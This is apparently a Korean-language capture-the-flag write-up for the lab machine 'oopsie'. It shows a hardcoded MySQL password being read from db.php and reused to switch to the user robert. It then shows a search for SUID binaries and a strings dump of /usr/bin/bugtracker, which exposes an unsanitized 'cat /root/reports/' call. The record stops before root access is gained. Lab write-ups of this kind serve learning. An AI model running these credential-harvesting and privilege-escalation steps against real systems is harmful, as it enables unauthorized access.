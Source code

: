  `robert`라는 유저가 존재한다는 건 알았는데, 현재 사용자는 `robert`가 아니다. `robert`의 로그인정보나 `robert`로 권한을 바꿀 수 있는 방법을 찾아야 한다.

웹 서버가 존재한다는 걸 아니까 웹 서버의 내용을 둘러봤다.

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

```

`robert`의 mysql 계정정보를 얻을 수 있고  이걸로 아까 확인했던 `robert` 사용자로 접속하려고 하니까 된다:

```bash
www-data@oopsie:/home/robert$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:~$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

이제 `root`로 권한 상승해서 아마 `/root` 아래에 있는 파일을 읽어야 할 것 같다. 낼 함 ㅅㄱ

---

:rocket: ​https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

권한 상승을 시도할 때 쓸만한 게 많은 것 같다.

환경변수도 수정해보려고 하고, 설정파일들도 읽어봤지만 딱히 되는 게 없다.

찾아보다가 setuid가 설정된 파일을 찾을 수 있는 방법이 있다. `bugtracker`그룹이면서 setuid가 설정된 파일을 찾아보았다.

```bash
$ find / -perm -u=s -type f 2>/dev/null    
# SUID (chmod 4000) - run as the owner, not the user who started it.
```

``` bash
robert@oopsie:~$ find / -type f -group bugtracker -perm -u=s 2>/dev/null
/usr/bin/bugtracker
```

`/usr/bin/bugtracker` 바이너리를 `strings`로 추출해서 읽어보자. 

``` bash
$ strings bugtracker
```

```
...
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
....
```
